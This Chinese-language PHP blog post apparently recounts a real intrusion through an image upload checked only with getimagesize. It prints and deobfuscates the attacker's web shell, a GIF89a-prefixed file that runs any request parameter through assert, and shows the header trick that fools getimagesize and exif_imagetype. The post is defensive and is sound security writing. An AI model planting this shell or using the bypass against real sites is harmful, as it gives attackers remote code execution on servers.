 ```yaml
---
title: 一次PHP图片上传验证不严谨引发的血案
date: 2017-07-05 14:25:01
categories:
- PHP
- 笔记
tags:
- upload
- security
---
```


之前做过一个项目涉及到用户上传图片，当时项目比较小且一个人做就没用框架。上传这部分的验证综合服务器没有安装`exif`、`gd`扩展就简单根据 **`getimagesize`**([文档](http://php.net/manual/zh/function.getimagesize.php)) 函数是否返回false判断，后面出现了问题。

有天一位前同事告知这个项目被朋友hack注入了脚本，就是通过上传操作。

我登入服务器相应目录，根据时间排序发现了可疑文件，后缀名竟然是 `.php`，矮油我去，赶紧download下来并删除(线上先暂时加了后缀名验证)，打开一看:

``` php
GIF89a
<?php
    @$bSzrL= "s\x74r\x5fr\x65\x70lac\x65";
    @$VwissV= @$bSzrL('drApO','','adrApOrdrApOraydrApO_drApOmdrApOap');
    @$ZXNFh= @$bSzrL('DBCFzQ','','asseDBCFzQrDBCFzQt');
    @$VwissV(@$ZXNFh,(array)@$_REQUEST['csqing123']);
```

毕竟学识浅薄，没搞过别人也没别人搞过，不太熟悉其中的套路，傻眼了两秒。
<!-- more -->
先不管文件中的那些不规则字符变量，问题应该是出在文件开头的 `GIF89a`。本地测试直接使用`getimagesize`函数，`var_dump`出来:

```
array(6) {
  [0]=>
  int(3360)
  [1]=>
  int(15370)
  [2]=>
  int(1)
  [3]=>
  string(27) "width="3360" height="15370""
  ["channels"]=>
  int(3)
  ["mime"]=>
  string(9) "image/gif"
}
```

这尼玛`getimagesize`表示也很无奈，然后使用`exif_imagetype`处理打印出来是1，即常量`IMAGETYPE_GIF`的值，看来`exif`扩展也沦陷了。不慌，接着试`finfo_open`，欣慰的是伴随着一串串的 notice 和 warning, 脚本返回了`false`，完美。

原因暂时找到了，接着就是探究文件头的罪魁祸首 `GIF89a`。查到百科:
[Magic number](https://en.wikipedia.org/wiki/Magic_number_(programming))
> Compiled Java class files (bytecode) and Mach-O binaries start with hex CAFEBABE. When compressed with Pack200 the bytes are changed to CAFED00D.
> 
> GIF image files have the ASCII code for "GIF89a" (47 49 46 38 39 61) or "GIF87a" (47 49 46 38 37 61)
> 
> JPEG image files begin with FF D8 and end with FF D9. JPEG/JFIF files contain the ASCII code for "JFIF" (4A 46 49 46) as a null terminated string. JPEG/Exif files contain the ASCII code for "Exif" (45 78 69 66) also as a null terminated string, followed by more metadata about the file.
> 
> PNG image files begin with an 8-byte signature which identifies the file as a PNG file and allows detection of common file transfer problems: \211 P N G \r \n \032 \n (89 50 4E 47 0D 0A 1A 0A). That signature contains various newline characters to permit detecting unwarranted automated newline conversions, such as transferring the file using FTP with the ASCII transfer mode instead of the binary mode.[5]

大致意思是某些特定的文件含有特定的某些字符，而GIF文件的特殊字符是`GIF89a`,`GIF87a`。由此可推算`getimagesize`和`exif_imagetype`可能就是被文件头部的特殊字符误导判断为GIF文件。*(我试了下把文件头的6个字符删得只剩GIF3个字符后依然存在问题 todo)*

如果要继续探究这两个有问题的函数的话，得去读源码，大致可以猜到有匹配文件头的N个字符去判断有关。

没完，继续。

`GIF89a`后面那些几乎没有可读性的PHP代码究竟是什么？

简单把变量打印出来便知：

``` php
<?php
    @$bSzrL= "s\x74r\x5fr\x65\x70lac\x65";
    @$VwissV= @$bSzrL('drApO','','adrApOrdrApOraydrApO_drApOmdrApOap');
    @$ZXNFh= @$bSzrL('DBCFzQ','','asseDBCFzQrDBCFzQt');
    @$VwissV(@$ZXNFh,(array)@$_REQUEST['csqing123']);

    var_dump($bSzrL, $VwissV, $ZXNFh);

    // 打印结果
    // string(11) "str_replace"
    // string(9) "array_map"
    // string(6) "assert"
```

原来`\x74`,`\x5f`这些鬼字符串是**十六进制**，双引号下自动解析为相应的字符，查进制表就看到 `\x74` -> `t`, `\x5f` -> `_`, 其他同理。

最后经过处理，主要逻辑就一句话：

``` php
<?php
    array_map(`assert`, (array)$_REQUEST['csqing123']);
```

即黑客可**通过开头上传的脚本文件通过`assert`函数执行任何PHP语句**，如：http://www.myproject.com/uploads/hacker.php?csqing123=exit('u r hacked')。

可怕吧。

说回正事，上传的图片究竟该如何验证？GIF有此问题，保不准其他类型的图片文件也存在。首先先排除掉 `getimagesize`,`exif_imagetype` 这两个函数，蛋疼的是我在 stackoverflow 上看到相关问题顶在最上面的回答很多都是用这俩。当然前面测试通过的`finfo`扩展可以，也看到有鬼佬建议用户所有上传的图片都通过`gd`库验证并转化为统一的比如`png`格式的图片，虽然比较耗CPU资源，但一方面文件类型统一方便处理，另一方面绝对保证了图片文件类型的安全性，也不失为一个方向吧。

#### 总结
不可单纯依赖`getimagesize`,`exif_imagetype`这两个函数判断文件是否为图片(至少GIF图片)


<br/><br/><br/>

参考资料：
> [Magic_number, 魔术数字](https://en.wikipedia.org/wiki/Magic_number_(programming))
> 
> [ASCII，十进制，十六进制，八进制和二进制转换表](https://www.ibm.com/support/knowledgecenter/zh/ssw_aix_61/com.ibm.aix.networkcomm/conversion_table.htm)
> 
> [PHP Uploading files - image only checking](https://stackoverflow.com/questions/9314164/php-uploading-files-image-only-checking)
> 
> [How can I only allow certain filetypes on upload in php?](https://stackoverflow.com/questions/2486329/how-can-i-only-allow-certain-filetypes-on-upload-in-php)
